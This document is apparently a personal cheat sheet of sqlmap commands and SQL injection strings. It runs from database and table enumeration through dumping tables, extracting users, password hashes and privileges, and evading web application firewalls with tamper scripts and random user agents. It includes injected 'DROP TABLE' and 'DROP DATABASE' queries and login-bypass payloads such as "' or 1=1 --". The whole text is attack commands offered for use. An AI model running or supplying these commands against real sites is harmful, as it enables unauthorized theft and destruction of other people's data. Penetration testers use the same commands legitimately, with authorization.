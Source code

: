 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D databasename -T tablename
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D databasename -T tablename
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql
8. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent
9. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs
10. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 --tables
11. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 -T coba --dump
12. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP TABLE nama_tabel"
13. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP DATABASE nama_database"
14. python3 sqlmap.py -r request.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs --level=5 --risk=3 --threads=5 --hex --data="id=2618 AND 2323=2323" --dbms=Oracle

// others
1. python sqlmap.py -u "http://yoursite.com/news.php?id=1" --dbs --current-user --current-db --is-dba --users --passwords --roles --hostname --privileges
2. python sqlmap.py -u "https://target.com/?id=1" -t 10 --tamper="between,randomcase,space2comment" --dbs --random-agent --risk=3 --level=5
3. python sqlmap.py -u "https://..." --cookie="" --user-agent="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36" --delay=0 --timeout=30 --retries=0 --dbms=PostgreSQL --level=3 --risk=1 --threads=1 --time-sec=5 --technique=BEUSTQ --current-user --dbs

// set parameter target
sqlmap -r ./target.txt --tamper="between,randomcase,space2comment" --random-agent -p username,password


# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/

